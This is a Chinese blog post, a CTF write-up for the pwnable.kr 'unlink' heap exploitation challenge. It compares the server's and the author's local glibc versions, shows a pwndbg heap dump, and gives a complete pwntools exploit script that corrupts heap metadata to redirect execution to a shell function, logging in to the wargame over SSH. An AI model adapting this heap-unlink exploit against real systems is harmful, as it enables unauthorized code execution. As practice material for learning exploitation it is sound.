

<!--yml
category: 未分类
date: 2022-04-26 14:42:31
-->

# PWN unlink [pwnable.kr]CTF writeup题解系列14（包含本地解决方法）_3riC5r的博客-CSDN博客

> 来源：[https://blog.csdn.net/fastergohome/article/details/103850667](https://blog.csdn.net/fastergohome/article/details/103850667)

先看看题目内容：




这个题目是比较经典的unlink题目，网上已经有很多wp介绍了做法，我这里就不多阐述，只是把我对在不同操作系统版本下的理解和大家说一下。

我先把服务器的操作系统相关组件的版本和我自己本机用的docker的操作系统相关组件的版本信息列举一下：

pwnable.kr

```
# Linux prowl 4.4.179-0404179-generic #201904270438 SMP Sat Apr 27 08:41:19 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
# Linux version 4.4.179-0404179-generic (kernel@tangerine) (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.10) ) #201904270438 SMP Sat Apr 27 08:41:19 UTC 2019
# Distributor ID:    Ubuntu
# Description:    Ubuntu 16.04.6 LTS
# Release:    16.04
# Codename:    xenial
# (Ubuntu GLIBC 2.23-0ubuntu11) 2.23
# gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.11) 
```

本机

```
# Linux mypwn 4.9.184-linuxkit #1 SMP Tue Jul 2 22:58:16 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
# Linux version 4.9.184-linuxkit (root@a8c33e955a82) (gcc version 8.3.0 (Alpine 8.3.0) ) #1 SMP Tue Jul 2 22:58:16 UTC 2019
# Distributor ID:	Ubuntu
# Description:	Ubuntu 18.04.2 LTS
# Release:	18.04
# Codename:	bionic
# (Ubuntu GLIBC 2.27-3ubuntu1) 2.27
# gcc version 7.4.0 (Ubuntu 7.4.0-1ubuntu1~18.04.1) 
```

这个题目最重要的问题是找到[ebp-4]这个地址作为设置shell的地址，具体细节可以参考更多的wp，这里我就不再详述了。

我给大家看下在我本机的内存heap的情况

```
pwndbg> x/50x 0x9062570-0x10
0x9062560: 0x00000000 0x00000000 0x00000000 0x00000021
0x9062570: 0x09062590 0x00000000 0x00000000 0x00000000
0x9062580: 0x00000000 0x00000000 0x00000000 0x00000021
0x9062590: 0x090625b0 0x09062570 0x00000000 0x00000000
0x90625a0: 0x00000000 0x00000000 0x00000000 0x00000021
0x90625b0: 0x00000000 0x09062590 0x00000000 0x00000000
0x90625c0: 0x00000000 0x00000000 0x00000000 0x00000411
0x90625d0: 0x20776f6e 0x74616874 0x756f7920 0x76616820
0x90625e0: 0x656c2065 0x2c736b61 0x74656720 0x65687320
0x90625f0: 0x0a216c6c 0x000a340a 0x00000000 0x00000000
0x9062600: 0x00000000 0x00000000 0x00000000 0x00000000
0x9062610: 0x00000000 0x00000000 0x00000000 0x00000000
0x9062620: 0x00000000 0x00000000 
```

上面给到的就是heap的起始地址，开始的内存情况，在我的docker里面分配的内存是0x20。所以不同的操作系统的利用脚本是不一样的。

下面我就给出在本机和pwnable.kr上的不同利用的脚本，只要设置debug变量就可以切换

```
#!python
#coding:utf8

from pwn import *

context.log_level = 'debug'
path_name = 'unlink'
process_name = './'+path_name
elf = ELF(process_name)

debug = 0
if debug == 1:
	p = process(argv=[process_name], env={'LD_LIBRARY_PATH':'./'})
else:
	s = ssh(host='pwnable.kr',user=path_name,password='guest',port=2222)
	p = s.process(argv=[path_name], executable='/home/'+path_name+'/'+path_name)

p.recvuntil('here is stack address leak: ')
data = int(p.recvuntil('\n')[:-1], 16)
log.info("stack => %#x", data)
ebp = data + 0x14
p.recvuntil('here is heap address leak: ')
data = int(p.recvuntil('\n')[:-1], 16)
log.info("heap => %#x", data)
heap_addr = data
if debug == 1:
	# Linux mypwn 4.9.184-linuxkit #1 SMP Tue Jul 2 22:58:16 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
	# Linux version 4.9.184-linuxkit (root@a8c33e955a82) (gcc version 8.3.0 (Alpine 8.3.0) ) #1 SMP Tue Jul 2 22:58:16 UTC 2019
	# Distributor ID:	Ubuntu
	# Description:	Ubuntu 18.04.2 LTS
	# Release:	18.04
	# Codename:	bionic
	# (Ubuntu GLIBC 2.27-3ubuntu1) 2.27
	# gcc version 7.4.0 (Ubuntu 7.4.0-1ubuntu1~18.04.1) 
	payload = p32(elf.symbols['shell']) + '\x00'*16 + p32(0x20+1) + p32(heap_addr+12) + p32(ebp-4)
else:
	# Linux prowl 4.4.179-0404179-generic #201904270438 SMP Sat Apr 27 08:41:19 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
	# Linux version 4.4.179-0404179-generic (kernel@tangerine) (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.10) ) #201904270438 SMP Sat Apr 27 08:41:19 UTC 2019
	# Distributor ID:    Ubuntu
	# Description:    Ubuntu 16.04.6 LTS
	# Release:    16.04
	# Codename:    xenial
	# (Ubuntu GLIBC 2.23-0ubuntu11) 2.23
	# gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.11) 
	payload = p32(elf.symbols['shell']) + '\x00'*12 + p32(heap_addr+12) + p32(ebp-4)
	# # way 2:
	# payload = p32(elf.symbols['shell']) + '\x00'*12 + p32(ebp-8) + p32(heap_addr+12)
p.sendlineafter('get shell!\n', payload)

p.interactive() 
```

估计有很多同学都会看其他wp，发现都是只给出了在pwnable上的解决办法。至于在本机的解决方法在其他人的wp上并没有仔细阐述，所以我这里也是抛砖引玉，和大家分享。